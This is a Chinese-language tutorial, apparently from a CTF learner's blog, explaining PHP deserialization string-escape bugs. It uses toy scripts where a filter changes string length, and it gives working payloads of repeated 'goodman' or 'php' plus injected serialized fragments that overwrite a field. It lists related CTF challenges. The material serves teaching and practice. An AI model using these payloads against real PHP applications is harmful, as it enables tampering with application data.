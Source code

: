 反序列化字符串逃逸
=
参考：https://xiaolong22333.top/index.php/archives/14/

php在反序列化时，底层代码是以;作为字段的分隔，以}作为结尾，并且是根据长度判断内容 ，同时反序列化的过程中必须严格按照序列化规则才能成功实现反序列化 。
这个问题发生在过滤替换字符串时由于这两个字符串长度不相等，所以可以逃逸出来一些长度的字符，因为反序列化必须长度和字符串长度相同才可以，所以我们需要让我们自己构造的数据加上一对堆面的数据使他等于本来的长度
```php
<?php
$name=$_GET[name];
$id='hello';
$p=array($name,$id);
echo test(serialize($p));
?>
```
运行结果
![](http://qiuniu.xiaolong22333.top/%E6%8D%95%E8%8E%B76.PNG)

加入一点过滤

```php
<?php
function test($str)
{
    return preg_replace('/goodman/','xiaolong',$str);
}
$name=$_GET[name];
$id='hello';
$p=array($name,$id);
echo test(serialize($p));
?>
```
运行结果

![](http://qiuniu.xiaolong22333.top/%E6%8D%95%E8%8E%B77.PNG)

可以看到goodman被替换成了xiaolong，但是字符串长度却没有改变，这时反序列化是无法成功的，而我们可以利用这个漏洞来改变id的值。比如我想将id的值改为tskknmsl
输入payload

name=goodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodmangoodman";i:1;s:8:"tskknmsl";}

gxiaolongxiaolongxiaolongxiaolongxiaolong";i:1;s:8:"tskknmsl";}";i:1;s:5:"hello";}

此时可以反序列化一下输出id的值，可以发现已经成功修改成了tskknmsl

![](http://qiuniu.xiaolong22333.top/%E6%8D%95%E8%8E%B78.PNG)

解释一下

代码将goodman替换成xiaolong后多了一个字符，但序列化后长度却没变，也就是说多出来的那个字符可以被我们利用

将id的值改为tskknmsl的序列化结果为i:1;s:8:"tskknmsl";

因为反序列化是以; 作为字段的分隔，以 } 作为结尾，所以要改为 ";i:1;s:8:"tskknmsl";} (这里有22个字符)

而每一个goodman都可以多一个字符，所以我们构造22个goodman就可以多22个字符

序列化后原本的 ";i:1;s:5:"hello";}则不会参与反序列化(前面的 } 已经是结尾了)，所以id的值就被修改为了tskknmsl

还有一种情况，就是替换后的字符比原本的短

```php
<?php
function test($str)
{
    return preg_replace('/php/','no',$str);
}
$name=$_GET[name];
$sex=$_GET[sex];
$id='hello';
$p=array($name,$sex,$id);
$p1=test(serialize($p));
echo $p1;
?>
```
![](http://qiuniu.xiaolong22333.top/%E6%8D%95%E8%8E%B711.PNG)

同样想将id的值改为tskknmsl

payload

name=phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp&sex=xxxxxxxxxx";i:1;s:3:"man";i:2;s:8:"tskknmsl";}

运行结果

![](http://qiuniu.xiaolong22333.top/%E6%8D%95%E8%8E%B712.PNG)

修改成功

解释：

php被替换为no后少了一个字符，但长度没变，也就是说空出了一个字符

当我们传入22个php后被替换为22个no，此时空出了22个字符

再传入xxxxxxxxxx";i:1;s:3:"man";i:2;s:8:"tskknmsl";}当做sex的值

sex的值序列化后的结果为i:1;s:46:"xxxxxxxxxx";i:1;s:3:"man";i:2;s:8:"tskknmsl";

此时被替换成的no和后面的i:1;s:46:"xxxxxxxxxx组合起来刚好是66个字符，成为了name的值

后面i:1;s:3:"man";i:2;s:8:"tskknmsl";就是sex和id的序列化结果，从而修改了id的值

相关题目：

[GYCTF2020]Easyphp

[0CTF 2016]piapiapia

安洵杯2019——easy_serialize_php
